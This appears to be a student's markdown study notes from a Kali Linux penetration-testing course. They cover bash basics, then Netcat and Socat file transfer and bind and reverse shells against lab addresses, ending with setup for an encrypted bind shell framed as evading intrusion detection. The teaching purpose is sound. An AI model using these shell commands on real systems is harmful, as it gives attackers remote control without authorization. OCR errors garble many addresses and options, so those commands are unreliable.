




[TOC]


# Pentest with Kali Linux

## Getting Comfortable with Kali Linux

### Creating Directories

**Create multiple drectory**

```
kali@kali:~$ mkdir -p test/{ recon , exploit,report}
kali@kali:~$ ls -l test/
exploit
recon
report
```


### Finding Files in Kali Linux

**1. which**

```
kali @kali:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

kali@kali:~$ which sbd
/usr/bin/sbd
```


**2. locate**

```
# To manually update the locate.db 
kali @kali :-$ sudo updatedb

kali@kali: -$ locate sbd.exe
/usr/share/w;ndows-resources/sbd/sbd.exe
```


**3. find**

```
kal i@kali:-$ sudo find / -name sbd*
/ usr/bin/sbd
/us r/share/doc/sbd
/ us r/sha re/windows-resources/sbd
/us r/share/windows-resources/sbd/sbd.exe
/us r/sha re/windows-resources/sbd/sbdbg.exe
/var/cache/apt/archives/sbd_l.37-lkali3_amd64.deb
/va r/lib/dpkg/ i nfo/sbd . mdSsums
/var/lib/dpkg/info/sbd. li st
```


## Managing Kali Linux Services

```
# Start SSH service
$ sudo systemctl start ssh

# verify that the SSH service is running and listening on TCP port 22
$ sudo ss -antlp | grep sshd
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*    users:(("sshd",pid=1482,fd=3))
LISTEN 0      128             [::]:22           [::]:*    users:(("sshd",pid=1482,fd=4))

# SSH service start automatically at boot time
$ sudo systemctl enable ssh

# To see a table of all available services
$ systemctl list-unit-files
```


## Searching, Installing, and Removing Tools

```
# Update the list of available packages 
kali@kali:~$ sudo apt update

# upgrade the installed packages and core system to the latest versions
kali@kali:~$ sudo apt upgrade

# Upgrade single package
kali@kali:-$ apt upgrade metasploit-framework.

# displays much of the information stored in the internal cached package database
kali@kali:-$ apt-cache search pure-ftpd

# command completely removes packages 
kali@kali:~$ sudo apt remove --purge pure-ftpd

# dpkg is the core tool used to install a package, either directly or indirectly through APT
$ sudo dpkg -i man-db_2.1.e.2-s_amd64.deb
```


## Command Line Fun

### The Bash Environment

```
$ echo $PATH
/usr/local/sbi n:/usr/local/bin:/usr/sbin:/usr/bin :/sbin:/bin

kali@kali:-$ echo $USER
kali
kali@kali:~$ echo $PWD
/home/kali
kali@kali:-$ echo $HOME
/home/kali
```

**Environment** 

```
# define environment variables using export command
kali@kali:~$ export b=le.11.1.220

kali@ka1i:~$ ping -c 2 $b
PING 10.11.1.220 (10.11.1.220) 56(84) bytes of data.
64 bytes from 10.11.1.220: icmp_seq=l ttl=62 time=2.23 ms
64 bytes from 10.11.1.220: icmp_seq=2 ttl=62 time=l.56 ms

# View other environment variables defined by default in Kali Linux
kali@kali:~$ env
```

**Bash History Tricks**

```
kali@kali:~$ history
1 echo $PWD
2 clear
3 history


# To rerun the first command
kali@kali:~$ !1


```

* By default. the command history is saved to the .baslulistory file in the user home directory. 

* Two environment variables control the history size: 

  - **HISTSIZE** controls the number of commands stored in memory for the current session 

  - **HISTFILESIZE** configures how many commands are kept in the history file. 

    
    
- These variables can be edited according to our needs and saved to the Bash configuration file **(.bashrc)** 

### Piping and Redirection

Every program run from the command line has three data streams connected to it that serve as
communication channels w ith the external environment. These streams are defined as follows:

|       Stream Name        |                  Description                   |
| :----------------------: | :--------------------------------------------: |
|  Standard Input (STDIN)  |           Data fed into the program            |
| Standard Output (STDOUT) | Output from the program (defaults to terminal) |
| Standard Error (STDERR)  |     Error messages (defaults to terminal)      |


### Redirecting to a New File

```
kali@kali:~$ echo "Kati Linux is an open source project" > redirection_test.txt
```

### Redirecting to an Existing File

To append additional data to an existing file

```
kali@kali:~$ echo "that is maintained and funded by Offensive Security" >> redirection_test.txt
```

### Redirecting from a File

```\
kali@kali:~$ wc -m < redirection_test.txt
89
```

### Redirecting STDERR

```
kali@kali:~$ ls ./test
ls: cannot access '/test': No such file or directory

kali@kali:~$ ls ./test 2>error.txt

kali@kali:~$ cat error.txt
ls: cannot access '/test': No such file or directory
```


### Piping

```
kali@kali:~$ cat error.txt
ls: cannot access '/test': No such file or directory

kali@kali:~$ cat error.txt | wc -m
53

kali@kali:~$ cat error.txt | wc -m > count.txt

kali@kali:~$ cat count.txt
53
```


### Text Searching and Manipulation

**1. grep**

```
$ ls -la /usr/bin | grep zip
-rwxr-xr-x  3 root root        38984 Jul 20 09:00 bunzip2
-rwxr-xr-x  3 root root        38984 Jul 20 09:00 bzip2
-rwxr-xr-x  1 root root        18424 Jul 20 09:00 bzip2recover
-rwxr-xr-x  1 root root        22792 Jul 27  2019 funzip
-rwxr-xr-x  1 root root         3516 Mar 23  2020 gpg-zip
-rwxr-xr-x  2 root root         2346 Mar 19  2020 gunzip
-rwxr-xr-x  1 root root        98048 Mar 19  2020 gzip
-rwxr-xr-x  1 root root         4754 Aug 15 04:26 p7zip
```

**2. sed**

```
$ echo "I need to try hard" | sed 's/hard/harder/'
I need to try harder
```

**3. cut**

- used to extract a section of text from a line and output it to the standard output.

```
kali@kali: -$ echo "I hack binades,web apps,mobile apps, and just about anything else" | cut -f 2 -d ","                                     
web apps
```

```
kali@kali: -$ cut -d ":" -f 1 /etc/passwd                                                 
root
daemon
bin
```

**4. awk**

- used as a data extraction and reporting tool.

```
$ echo "hello::there::friend" | awk -F "::" '{print $1, $3}'
hello friend
```


### Practical Example


```
$ wc -l access.log                                                  
1173 access.log

$ cat access.log| cut -d " " -f 1 | sort -u
201.21.152.44
208.115.113.91
208.54.80.244
208.68.234.99
70.194.129.34
72.133.47.242
88.112.192.2
98.238.13.253
99.127.177.95

$ cat access.log| cut -d " " -f 1 | uniq -c | sort -urn
   1038 208.68.234.99
     59 208.115.113.91
     21 99.127.177.95
     13 208.54.80.244
      9 208.54.80.244
      8 88.112.192.2
      7 70.194.129.34
      1 201.21.152.44

$ cat access.log| grep "208.68.234.99" | cut -d "\"" -f 2 | uniq -c
   1038 GET //admin HTTP/1.1
   
$ cat access.log| grep "208.68.234.99" | grep 'admin' | sort -u
208.68.234.99 - - [22/Apr/2013:07:51:20 -0500] "GET //admin HTTP/1.1" 401 742 "-" "Teh Forest Lobster"
208.68.234.99 - admin [22/Apr/2013:07:51:25 -0500] "GET //admin HTTP/1.1" 200 575 "-" "Teh Forest Lobster"


```

### Comparing Files

**1. comm**

- **comm** command compares two text files, displaying the lines that are unique to each one, as
  well as the lines they have in common. 

- It outputs three space-off set columns: 

  - the first contains lines that are unique to the first file or argument; 

  - the second contains lines that are unique to the second file or argument; and 

  - the third column contains lines that are shared by both files. 

- The -n     switch, where «n• is either 1, 2, or 3, can be used to suppress one or more columns, depending on the need.

```
kali @kali:~$ cat scan-a.txt
192.168.1.1
192.168.1.2
192.168.1.3
192.168.1.4
192.168.1.5

kali @kali:~$ cat scan-b.txt
192.168.1.1
192.168.1.3
192.168.1.4
192.168.1.5
192.168.1.6

kali@kali:~$ comm scan-a.txt scan-b.txt
				192.168.l.l
192.168.l.2
				192.168.l.3
				192.168.l.4
				192.168.l.5
		192 .168. l. 6

kali@kali:~$ comm -12 scan-a.txt scan-b.txt
192.168.1.1
192.168.1.3
192.168.1.4
192.168.1.5
```


**2. diff**

- The **diff** command is used to detect differences between files, similar to the comm command.
  However, diff is much more complex and supports many output formats. 
- Two of the most popular formats include the context format (-c) and the unified format (-u).

```
kali@kali:~$ diff -c scan-a.txt scan-b.txt                                                                                                  1 ⨯
*** scan-a.txt	2020-12-01 00:57:27.294828978 -0500
--- scan-b.txt	2020-12-01 00:57:43.882932662 -0500
***************
*** 1,6 ****
  192.168.1.1
- 192.168.1.2
  192.168.1.3
  192.168.1.4
  192.168.1.5
  
--- 1,6 ----
  192.168.1.1
  192.168.1.3
  192.168.1.4
  192.168.1.5
+ 192.168.1.6

kali@kali:~$ diff -u scan-a.txt scan-b.txt                                                                                                  1 ⨯
--- scan-a.txt	2020-12-01 00:57:27.294828978 -0500
+++ scan-b.txt	2020-12-01 00:57:43.882932662 -0500
@@ -1,6 +1,6 @@
 192.168.1.1
-192.168.1.2
 192.168.1.3
 192.168.1.4
 192.168.1.5
+192.168.1.6
```

**3. vimdiff**

- vimdiff opens vim with multiple files, one in each window. 

- The differences between files are highlighted, which makes it easier to visually inspect them. 

- There are a few shortcuts that may be useful. For example:

  - d + o: gets changes from the other window into the current one

  - d + p: puts the changes from the current window into the other one

  - ] + c: jumps to the next change

  - [ + c: jumps to the previous change

  - ctrl + w and :arrow_left: or :arrow_right:: switches to the other split window.

    

### Managing Processes

**Backgrouding Processes**

- The quickest way to background a process is to append an ampersand (&) to the end of the
  command to send it to the background immediately after it starts.

```
$ ping -c 400 localhost > ping_results.txt &
```

But what would have happened if we had forgotten to append the ampersand at the end of the
command?

```
$ ping -c 400 localhost > ping_results.txt                                                 
^Z
zsh: suspended  ping -c 400 localhost > ping_results.txt
                                                                                          
$ bg                                                                                       [2]  - continued  ping -c 400 localhost > ping_results.txt                                 
```

**Jobs Control:jobs and fg**

```
# lists the jobs that are running in the current terminal session
$ jobs                                                                                     [1]  + suspended  ping -c 400 localhost > ping_results.txt
[2]  - running    ping -c 400 localhost > ping_results.txt

# returns a job to the foreground
$ fg %1                                                                                   [1]  - continued  ping -c 400 localhost > ping_results.txt
```


### Process Control : ps and kill

**ps (process status)**

```
$ ps -ef                                  
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 Nov30 ?        00:00:07 /sbin/init splash
root           2       0  0 Nov30 ?        00:00:00 [kthreadd]
root           3       2  0 Nov30 ?        00:00:00 [rcu_gp]
root           4       2  0 Nov30 ?        00:00:00 [rcu_par_gp]
root           6       2  0 Nov30 ?        00:00:00 [kworker/0:0H-kblockd]
root           9       2  0 Nov30 ?        00:00:00 [mm_percpu_wq]
root          10       2  0 Nov30 ?        00:00:00 [ksoftirqd/0]
root          11       2  0 Nov30 ?        00:00:09 [rcu_sched]
root          12       2  0 Nov30 ?        00:00:00 [migration/0]
root          13       2  0 Nov30 ?        00:00:00 [cpuhp/0]
root          14       2  0 Nov30 ?        00:00:00 [cpuhp/1]
root          15       2  0 Nov30 ?        00:00:00 [migration/1]
root          16       2  0 Nov30 ?        00:00:00 [ksoftirqd/1]
root          18       2  0 Nov30 ?        00:00:00 [kworker/1:0H-kblockd]
root          19       2  0 Nov30 ?        00:00:00 [cpuhp/2]
root          20       2  0 Nov30 ?        00:00:00 [migration/2]
root          21       2  0 Nov30 ?        00:00:00 [ksoftirqd/2]
```

- e: select all processes
- f: display full format listing (UID, PID, PPID, etc.)

```
$ ps -fC mousepad                                                                         
UID          PID    PPID  C STIME TTY          TIME CMD
kali        3804     983  1 03:48 ?        00:00:00 mousepad

# Stop the process
$ kill 3804
```

### File and Command Monitoring

**tail**

- The most common use of **tail** is to monitor log file entries as they are being written.

```
kali@kali:-$ sudo tail -f /var/log/apache2/access.log
192.168.0.249 - - [01/Dec/2020:04:25:14 -0500] "GET / HTTP/1.1" 200 3380 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"
192.168.0.249 - - [01/Dec/2020:04:25:14 -0500] "GET /icons/openlogo-75.png HTTP/1.1" 200 6040 "http://192.168.0.223/" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"
192.168.0.249 - - [01/Dec/2020:04:25:14 -0500] "GET /favicon.ico HTTP/1.1" 404 491 "http://192.168.0.223/" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"
192.168.0.249 - - [01/Dec/2020:04:26:09 -0500] "GET / HTTP/1.1" 200 3380 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"

```

The -f optlon (follow) is very useful as it continuously updates the output as the target file grows.
Another convenient switch is -n x, which outputs the last x number of lines, instead of the default
value of 10.

**watch**

```
kali@kali:-$ watch -n 5 w
Every 5.0s: w                                                                                            kali: Tue Dec  1 04:35:07 2020

 04:35:07 up  7:46,  2 users,  load average: 0.02, 0.03, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali     tty7     :0               20:47    7:48m 37.39s  0.36s xfce4-session
kali     pts/1    192.168.0.249    20:49   25.00s  1:23   0.02s w

```


### Downloading Files

 **wget**

- -O switch to save the destination file with a different name on the local machine

```
$ wget -O report_wget.pdf https://www.offensive-security.com/reports/penetration-testing-sampte-report-2013.pdf
```


**curl**

- is a tool to transfer data to or from a server using a host of protocols including IMAP/S,
  POP3/S, SCP, SFTP, SMB/S, SMTP/S, TELNET, TFTP, and others. A penetration tester can use this
  to download or upload files and build complex requests.

```
$ curl -o report_wget.pdf https://www.offensive-security.com/reports/penetration-testing-sampte-report-2013.pdf
```


**axel**

- is a download accelerator that transfers a file from a FTP or HTTP server through multiple
  connections. This tool has a vast array of features, but the most common is -n, which is used to
  specify the number of multiple connections to use. In the following example, we are also using the
  -a option for a more concise progress indicator and -o to specify a different file name for the
  downloaded file

```
kali@kali : ~$ axel -a -n 28 -o report_axel.pdf https://www.offensive-security.com/repor
ts/penetration-testing-sample-report-2813.pdf
```


### Customizing the Bash Environment

**Bash History Customization**

The HISTCONTROL variable defines whether or not to remove duplicate commands, commands
that begin with spaces from the history, or both. By default, both are removed but you may find it
more useful to only omit duplicates.

```
kali@kali:~$ export HISTCONTROL=ignoredups
```

The HISTIGNORE variable is particularly useful for filtering out basic commands that are run
frequently, such as Is, exit, history, bg, etc:

```
kali @kali:~$ export HISTIGNORE="&:ls:bg:exit:history"

kali@kali:~$ mkdir test

kali@kali:~$ cd test

kali@kali:~/test$ ls

kali@kali:~/test$ pwd
/home/kali/test

kali@ka1i:~/test$ ls

kali@ka1i:~/test$ history
l export HISTIGNORE="&:ls:bg:exit:history"
2 mkdir test
3 cd test
4 pwd
```


HISTTIMEFORMAT controls date and/or time stamps in the output of the history command.

```
kali@kali:~$ export HISTTIMEFORMAT='%F %T'
```

**Alias**

```
$ alias lsa='ls -la'
                                                                                          $ lsa
total 8
drwxr-xr-x  2 kali kali 4096 Dec  1 06:42 .
drwxr-xr-x 16 kali kali 4096 Dec  1 06:42 ..
                                                                            
$ alias             
diff='diff --color=auto'
egrep='egrep --color=auto'
fgrep='fgrep --color=auto'
grep='grep --color=auto'
history='history 0'
ip='ip --color=auto'
l='ls -CF'
la='ls -A'
ll='ls -l'
ls='ls --color=auto'
lsa='ls -la'

# remove alias
$ unalias lsa
```

**Persistent Bash Customization**

The behavior of interactive shells in Bash is determined by the system-wide bashrc file located in
/etc/bash.bashrc. The system-wide Bash settings can be overridden by editing the .bashrc file
located in any user's home directory.

```
$ cat ~/.bashrc       
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize
......
```


## Practical Tools

### Netcat

#### Connecting to a TCP/UDP Port

We will supply several arguments: the -n option to skip DNS name resolution; -v to add some verbosity; the dest ination IP address; and the destination port number:

````
kali@kali:~$ nc -nv 10,11,8,22 118
(UNKNOWN) [10.11.0.22] 110 (pop3) open
+OK POP3 server lab ready <00003.1277944@lab>

# Try to interact with the server
kali@kali:-$ nc -nv 10.11.e.22 118
(UNKNOWN) [10.11.0.22) 110 (pop3) open
+OK POP3 server lab ready <00004.1546827@lab>
USER offsec
+OK offsec welcome here
PASS offsec
-ERR unable to tock mai l box
quit
+OK POP3 serve r lab signing off.
kali@kali:-$
````

#### Listening on a TCP/UDP Port

We will use the -n option to disable DNS name resolution, -l to create a listener, -v to add some verbosity, and -p to specify the listening port number:

```
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ...
```

Now that we have bound port 4444 on this Windows machine to Netcat, let's connect to that port
from our Linux machine and enter a line of text:

```
kali @kali:-$ nc -nv 10.11.e.22 4444
(UNKNOWN ) ( 10.11 .0 . 22] 4444 (?) open
This chat is from the linux machine
```

Our text will be sent to the Windows machine over TCP port 4444 and we can continue the #chat•
from the Windows machine:

```
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4) 43447
This chat is from the linux machine
This chat is from the windows machine
```

#### Transferring Files with Netcat

```
C:\Users\of fsec> nc - nlvp 4444 > incoming.exe
listeni ng on [any] 4444 ...
```

On the Kali system, we will push the wget.exe file to the Windows machine through TCP port 4444:

```
kali@kali:-$ locate wget . exe
/usr/share/windows-resources/binaries/wget.exe
kali@kali:-$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
(UNKNOWN) (10.11.0.22) 4444 (?} open
```

The connection is received by Netcat on the Windows machine as shown below:

```
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any) 4444
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4] 43459
^C
C:\Users\offsec>
```

Notice that we have not received any feedback from Netcat about our file upload progress. In this
case, since the file we are uploading is small, we can just wait a few seconds, then check whether
the file has been fully uploaded to the Windows machine by attempting to run it:

```
C: \Users\offsec> incoming.exe -h
GNU Wget 1.9.1, a non-interactive network retriever.
Usage: incoming (OPTION) ... (URL] ••.
```

#### Remote Administration with Netcat

**Netcat Bind Shell Scenario**

Bob will check his loca l IP address, then run Netcat w ith the -e option to execute cmd.exe once a
connection is made to the listening port:

```
C:\Users\offsec> ipconfig
Wi ndows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix
IPv4 Address. . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . : 10.11.0.1

C:\Users\offsec> nc -nlvp 4444 -e cmd.exe
listening on [any] 4444 .••
```

```
kali @kali:~$ ip address show eth0 | grep inet
	inet 10.11.0.4/16 brd 10.11.255.255 scope global dynamic eth0

kali@kali:~$ nc -nv 18 ,11,8,22 4444
(UNKNOWN) [10.11.0.22) 4444 (?) open
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix
IPv4 Address. . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . : 10.11.0.1
```

**Reverse Shell Scenario**

To get this working, Bob will first set up Netcat to listen for an incoming shell. We will use port 4444 in our example:

```
C:\Users\offsec> nc - nlvp 4444
listening on [any] 4444 ...
```

Now, Alice can send a reverse shell from her Linux machine to Bob. Once again, we use the -e
option to make an application available remotely, which in this case happens to be /bin/bash, the
Linux shell:

```
kali@kali:-$ ip address show eth0 | grep inet
		inet 10.11.0.4/16 brd 10.11.255.255   scope global dynamic eth0

kali@kali:-$ nc -nv 10.11.e.22 4444 -e /bin/bash
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

Once the connection is established, Alfce's Netcat will have redirected /bin/bash input, output and
error data streams to Bob's machine on port 4444, and Bob can interact with that shell:

```
C:\Users\offsec>nc -ntvp 4444
listening on [any] 4444 ..•
connect to (10.11.0.22] from <UNKNOWN) (10.11.0.4) 43482

ip address show eth0 | grep inet
		inet 10.11.0.4/16 brd 10.11.255.255  scope global dynamic eth0
```


### Socat

First, let's connect to a remote server on port 80 using both Netcat and socat:

```
kali@kali:~$ nc <remote server's ip address> 80

kali@kali:~$ socat - TCP4:<remote server's ip address>:80
```

Because root privileges are required to bind a listener to ports below 1024, we need to use sudo
when starting a listener on port 443:

```
kali@kali:~$ sudo nc -lvp localhost 443

kali@kali:-$ sudo socat TCP4-LISTEN:443 STDOUT
```

```
c:\socat>socat - TCP4:192.168.0.223:443
```

#### Socat Transfer Files

On Alice's side, we will share the file on port 443. In this example, the TCP4-LISTEN option specifies
an IPv4 listener, fork creates a child process once a connection is made to the listener, which
allows multiple connections, and file: specifies the name of a file to be transferred:

```
tail /usr/share/wordlists/nmap.lst > secret_passwords.txt 
```

````
kali@ka1i:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
````

```
c:\socat>socat TCP4:192.168.0.223:443 file:received_secret_passwords.txt,create
```

#### Socat Reverse Shells

Let's take a look at a reverse shell using socat. First, Bob will start a listener on port 443. To do this,
he will supply the -d -d option to increase verbosity (showing fatal, error, warning, and notice
messages), TCP4-LISTEN:443 to create an IPv4 listener on port 443, and STDOUT to connect
standard output (STDOUT) to the TCP socket:

```
c:\socat>socat -d -d TCP4-LISTEN:443 STDOUT
2020/12/02 12:34:32 socat[3324] N listening on AF=2 0.0.0.0:443
```

Next, Alice wi ll use socat' s EXEC option (similar to the Net cat -e option), which w ill execute the
given program once a remote connection is established. In this case, Alice wi ll send a /bin/bash
reverse shell (with EXEC:/bin/bash) to Bob's listening socket on 10.11.0.22:443:

```
kali@ka1i:~$ socat TCP4:192.168.0.198:443 EXEC:/bin/bash
```

Once connected, Bob ca n enter commands from his socat session, which will execute on Alice's
machine .

```
2020/12/02 12:37:54 socat[6288] N accepting connection from AF=2 192.168.0.223:45662 on AF=2 192.168.0.198:443
2020/12/02 12:37:54 socat[6288] N using stdout for reading and writing
2020/12/02 12:37:54 socat[6288] N starting data transfer loop with FDs [6,6] and [1,1]
whoami
kali
id
uid=1000(kali) gid=1000(kali) 
```


#### Socat Encrypted Bind Shells

- To add encryption to a bind shell. we will rely on Secure Socket Layer 85 certificates. This level of
  encryption will assist in evading intrusion detection systems (IDS) 86 and will help hide the sensitive
  data we are transceiving.
- To continue with the example of Alice and Bob, we will use the openssl. application to create a self-
  signed certificate using the following options:
  - **req**: initiate a new certificate signing request
  - **-newkey**: generate a new private key
  - **rsa:2848**: use RSA encryption with a 2,048-bit key length.
  - **-nodes**: store the private key without passphrase protection
  - **-keyout**: save the key to a file
  - **-xse9**: output a self-signed certificate instead of a certificate request
  - **-days**: set validity period in days
  - **-out**: save the certificate to a file

Once we generate the key, we will cat the certificate and its private key into a file, which we will
eventually use to encrypt our bind shell.

```
kali@kali : ~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt                1 ⨯
Generating a RSA private key
...................................................................................................................................................................+++++
...............................................................+++++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

Now that the key and certificate have been generated, we first need to convert them to a format
socat will accept. To do so, we combine both the bincLshell.key and bind_shell.crt files into a single
.pem file before we create the encrypted socat listener.

```
kali@kali : ~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```
